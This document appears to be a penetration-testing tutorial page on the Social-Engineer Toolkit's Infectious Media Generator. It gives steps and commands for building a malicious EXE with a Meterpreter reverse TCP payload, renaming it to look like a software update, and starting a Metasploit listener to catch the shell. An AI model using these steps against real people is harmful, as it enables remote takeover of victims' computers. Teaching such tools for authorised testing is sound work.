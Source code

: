 ```yaml
---
title: "Infectious Media Generator"
description: ""
icon: "code"
draft: false
---
```


Right now, you should have SET setup on your system. We can spin it up by running 
```sh
sudo setoolkit
```

###  Infectious Media Generator

The Infectious Media Generator in SET allows you to create malicious files, such as PDFs and EXEs, that can trigger a reverse Meterpreter shell when opened. This section will guide you through the process of creating a malicious EXE.

SET has many options for malicious payloads, but they may be limited depending on the software and operating system versions the target is using

### Getting Started
From the SET main menu, select one "Social-Engineering Attacks."
Choose three "Infectious Media Generator."

There are two options inside the **Infectious Media Generator**, **File-Format Exploits** and **Standard Metasploit Executable**.

#### File-Format Exploits
This attack vector exploits vulnerabilities in popular formats like PDFs, Microsoft Office documents, and image files. Attackers craft malicious files containing embedded payloads that, when opened by unsuspecting users, exploit these vulnerabilities to gain unauthorized access to their systems.

The primary advantage of this approach is its stealthiness, as the malicious files often appear legitimate and are less likely to raise suspicion. Moreover, users perceive these file formats as harmless, making them more likely to be opened.

These are dependent on the OS version of the target system.

#### Standard Metasploit Executable
Using the Metasploit Framework, this attack vector involves creating a standalone executable containing a malicious payload.

When a user runs the executable, the payload is executed, and the attacker gains control over the target system. This approach is more straightforward than File-Format Exploits, as it doesn't rely on exploiting specific vulnerabilities in file formats.

However, it may also be more conspicuous, as users are generally more cautious when running unfamiliar executables. A successful attack using this vector often relies on strong social engineering techniques to convince the target to run the executable, such as disguising it as a software update, a useful utility, or a desirable file.

## Choosing the Standard Metasploit Executable
You will be asked to select the reverse shell you want to use. For this option, choose two, which is the Windows Meterpreter Reverse TCP shell. Enter the IP address and port for your listener.

The Social Engineering Toolkit will now create the malicious exe file, call it payload.exe, and save it to the `/root/.set` directory.

You can now rename the file to something else if you want. An attacker might change the name to something that will entice a victim to click on it, such as an update for an application.
```sh
mv payload.exe <any_name.exe
```

Start the multi-handler in metasploit using the same IP and port you chose above and type run.
```sh
mfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <ip_address>
set lport <port>
run
```

The ip_address and port are the ones you've set up earlier.

